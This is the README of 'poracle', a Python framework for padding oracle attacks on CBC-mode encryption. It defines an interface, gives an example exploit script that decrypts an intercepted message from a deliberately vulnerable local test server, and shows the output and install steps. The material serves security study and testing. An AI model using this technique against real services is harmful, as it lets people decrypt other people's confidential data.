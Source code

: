 # Padding Oracle Attack Framework


`poracle` is a framework to perform convenient attacks on encryption used in CBC mode providing a padding oracle. If you would like to read more about padding oracles in general then [here is a great paper](http://dl.acm.org/citation.cfm?id=1925004.1925008) about it.

All you have to do in order to break the encryption using poracle is to define the interface. There are two functions to do that:

* a function that returns the ciphertext that should be considered
* a function that reveals the occurence of a padding error for a passed ciphertext



## Interface

The decrypter class can be used with:

- `Decrypter(blocksize, interface, verbose=False)`
- `Decrypter.run(remove_pad=True)`

The interface of the oracle must look like:


```python3
class Interface:
    def oracle(self, ciphertext):
        """ This function expects a ciphertext and returns true if there is
        no padding error and false otherwise.

        Args:
            ciphertext (bytes): the ciphertext that should be checked
        """

        raise NotImplementedError

    def intercept(self):
        """ This function should serve a ciphertext by returning it as
        bytes-object. If you know the initialization vector you should use
        it as prefix of the returned ciphertext in order to decrypt the whole
        message (of course except the IV).
        """

        raise NotImplementedError
```



## Example

There is an exemplary implementation of a backend server that is vulnerable against a padding oracle attack. The exploit to break an intercepted message using poracle can be seen in the [example folder](https://github.com/ppmx/poracle/tree/master/example).

An exploit with poracle might look like:

```python3
#!/usr/bin/env python3

import base64
import requests

import poracle

class thisInterface(poracle.Interface):
    def oracle(self, ciphertext):
        ctx = base64.urlsafe_b64encode(ciphertext).decode()
        url = "http://127.0.0.1:8080/search?data={0}".format(ctx)
        r = requests.get(url)
        return "no results found" in r.text

    def intercept(self):
        leak = "/search?data=ODE3MzY0ODI5MTgyNjQwMZf5bBNoKx0M2X3LN1di9W9YwrrC935vOcf0Tb2E7YilFQA8UsJdzphd0Yb0h3DRTP5TBXYPpYArrD3qbad2iPU="
        return base64.urlsafe_b64decode(leak[len("/search?data="):])

def main():
    print("[+] starting exploitation")
    interface = thisInterface()
    plaintext = poracle.OracleAttack(16, interface, True).decrypt(interface.intercept(), remove_pad=True)
    print("[+] decrypted message:", plaintext.decode())

if __name__ == "__main__":
    main()

```

An example run of that code:

```
$ cd example/
$ go run service.go &
$ python3 exploit.py
[+] starting oracle attack
[+] revealed block: b' nothing.\x07\x07\x07\x07\x07\x07\x07'
[+] revealed block: b'realize you know nothing.\x07\x07\x07\x07\x07\x07\x07'
[+] revealed block: b'w, the more you realize you know nothing.\x07\x07\x07\x07\x07\x07\x07'
[+] revealed block: b'The more you know, the more you realize you know nothing.\x07\x07\x07\x07\x07\x07\x07'

[+] decrypted message: The more you know, the more you realize you know nothing.
python3 exploit.py  7.57s user 0.48s system 92% cpu 8.696 total
```



## Installation

As someone asked me to give a short list of commands to install `poracle` using [python virtual env](https://docs.python.org/3/tutorial/venv.html) here we go:

```
$ mkdir foobar ; cd foobar
$ git clone https://github.com/ppmx/poracle.git
$ python3 -m venv poracle-venv
$ cd poracle
$ ../poracle-venv/bin/python3 setup.py install
$ cd ../ ; source poracle-venv/bin/activate
$ python3
Python 3.8.2 (default, Apr  8 2020, 14:31:25)
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import poracle
>>>
```

First we clone the repository and create the virtual environment. Then we use the venv python to install the package into the virtual environment and activate it.
